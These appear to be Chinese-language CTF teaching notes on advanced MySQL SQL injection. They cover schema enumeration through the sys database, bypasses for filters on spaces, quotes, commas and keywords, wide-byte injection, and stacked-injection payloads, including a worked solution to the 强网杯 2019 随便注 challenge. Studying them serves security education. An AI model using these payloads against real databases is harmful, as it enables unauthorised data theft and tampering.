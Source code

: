 # SQL注入进阶

## MySQL 5.7特性
MySQL 5.7.9新增`sys`数据库

```sql
SELECT object_name FROM `sys`.`x$innodb_buffer_stats_by_table` WHERE object_schema = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$schema_flattened_keys` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$ps_schema_table_statistics_io` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$schema_index_statistics` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$schema_table_statistics` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`x$schema_table_statistics_with_buffer` WHERE TABLE_SCHEMA = DATABASE();
SELECT object_name FROM `sys`.`innodb_buffer_stats_by_table` WHERE object_schema = DATABASE();
SELECT TABLE_NAME FROM `sys`.`schema_auto_increment_columns` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`schema_index_statistics` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`schema_table_statistics` WHERE TABLE_SCHEMA = DATABASE();
SELECT TABLE_NAME FROM `sys`.`schema_table_statistics_with_buffer` WHERE TABLE_SCHEMA = DATABASE();
SELECT FILE FROM `sys`.`io_global_by_file_by_bytes` WHERE FILE REGEXP DATABASE();
SELECT FILE FROM `sys`.`io_global_by_file_by_latency` WHERE FILE REGEXP DATABASE();
SELECT FILE FROM `sys`.`x$io_global_by_file_by_bytes` WHERE FILE REGEXP DATABASE();
SELECT FILE FROM `sys`.`x$io_global_by_file_by_latency` WHERE FILE REGEXP DATABASE();
SELECT QUERY FROM sys.x$statement_analysis WHERE QUERY REGEXP DATABASE();
SELECT QUERY FROM `sys`.`statement_analysis` where QUERY REGEXP DATABASE();
```

## MySQL 8 特性
MySQL 8.0.19之后，新增了`TABLE`、`VALUES`

- TABLE语法 - 始终显示所有字段、不支持过滤，即WHERE子句
```sql
TABLE table_name [ORDER BY column_name] [LIMIT number [OFFSET number]]
```

- VALUE语法 - 把一组一个或多个行作为表展示出来，返回的也是一个表数据
```sql
VALUES row_constructor_list [ORDER BY column_designator] [LIMIT BY number]

VALUES ROW(1, 2, 3) UNION SELECT * FROM users;
```

## 编码绕过

- to_base64，5.6版本新增
- hex
- aes_encrypt
- des_encrypt

## 过滤空格

<div grid="~ cols-2 gap-4">
<div>

- 注释
    - /**/
    - /\*something\*/
    - /\*!\*/
- 括号 - `UNION(SELECT(column)FROM(tbl))`

</div>
<div>

- 其他字符

| | |
| ---------|----------|
 09 | Horizontal Tab |
 0A | New Line |
 0B | Vertical Tab |
 0C | New Page |
 0D | Carriage Return |
 A0 | Non-breaking Space |
 20 | Space |

</div>
</div>

## 过滤引号

- 十六进制
```sql
SELECT * FROM users WHERE username = 0x637466;
```
> - [由Three Hit聊聊二次注入](https://www.freebuf.com/articles/web/167089.html)
- `char()`函数
```sql
SELECT * FROM users WHERE username = CHAR(99, 116, 102);
```

## 过滤逗号

- 联表查询`JOIN`
```sql
-1 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b
```
- `LIMIT 1 OFFSET 0`
- `FROM x FOR y`
    - mid(user() from 1 for 1)
    - substr(user() from 1 for 1)
- `EXP`等数学运算函数
> 前提是有报错信息

```sql
select !(select*from(select user())x)-~0;
```

## 过滤字段名
过滤字段或无法知道字段名，通常可以进行连表查询和按位比较

```sql
select x.3 from (select * from (select 1)a JOIN (select 2)b JOIN (select 3)c union(select * from users))x;
```

如果表中只有1个字段，`SUBSTR((SELECT * FROM users LIMIT 1),1,1)='x'`
如果有多个字段，需要字段数相等

```sql
SELECT (SELECT 1,2,3) > (SELECT * FROM users LMIT 1);
```

MySQL默认不区分大小写，可以使用二进制字符串进行比较
`SELECT CONCAT("A", CAST(0 AS JSON))`

## 过滤关键字

<div grid="~ cols-2 gap-4">
<div>

等价
- `AND`、`&&`
- `OR`、`||`
-  `=`、`LIKE`、`GREATEST()`,[更多比较操作符](https://dev.mysql.com/doc/refman/8.0/en/comparison-operators.html)

</div>
<div>

- `/union\s+select/i`
    - UNION(SELECT)
    - UNION [ALL|DISTINCT] SELECT
    - UNION/\*!SELECT\*/
    - UNION/**/SELECT
    - UNION%A0SELECT
- `/union/i`  - 转化为盲注
- `/select/i` - 往往和堆叠注入有联系
- `preg_replace('[\s]',"",$id))`  删除关键字
    - `SELESELECTCT`，叠字绕过

</div>
</div>

## 宽字节注入
在开启转义后，由于数据库编码和PHP编码不同，产生注入

- [addslashes](https://www.php.net/manual/zh/function.addslashes.php)为了数据库查询语句等的需要在某些字符前加上了反斜线转义，单引号（'）、双引号（"）、反斜线（\）与 NUL（null 字符）

0x <u>5c</u> -> `\`

$id = 0x <u>bf</u> <u>27</u>

addslashes($id)   -> 0x <u>bf 5c</u> 27  -> `縗'`

> GBK采用双字节编码，编码范围8140-FEFE

## 堆叠注入
存在堆叠注入，且过滤`select`

```sql
// 修改表名
RENAME TABLE `tbl_name` TO `new_tbl_name`;
ALTER TABLE `tbl_name` RENAME TO `new_tbl_name`;

// 修改字段名
ALTER TABLE `tbl_name` CHANGE `col_name` `new_col_name` 字段类型;
```

预编译语句
```sql
set @sql=concat("sel","ect flag from `tbl_name`");
PREPARE x from @sql;
EXECUTE x;
```

handler

```sql
```

## 练习题

- GYCTF2020 Ezsqli
- 网鼎杯 2018 unfinish

## 经典赛题分析

### 强网杯_2019_随便注

堆叠注入

1. 单引号、有错误信息提示、字段数为2
2. 过滤`preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`
3. 过滤`select`，考虑堆叠注入

方法1:预编译

```sql
SET @sql=concat("se","lect flag from `1919810931114514`");PREPARE x FROM @sql;EXECUTE x;
```

方法2:修改表名、字段名

```sql
RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100);
```

方法3:`handler`，见

```sql

```

> i春秋2020新春公益赛第二天blacklist，采用第三种方法


<!-OOB,oeder by 注入，false注入，like注入 mysql特性-->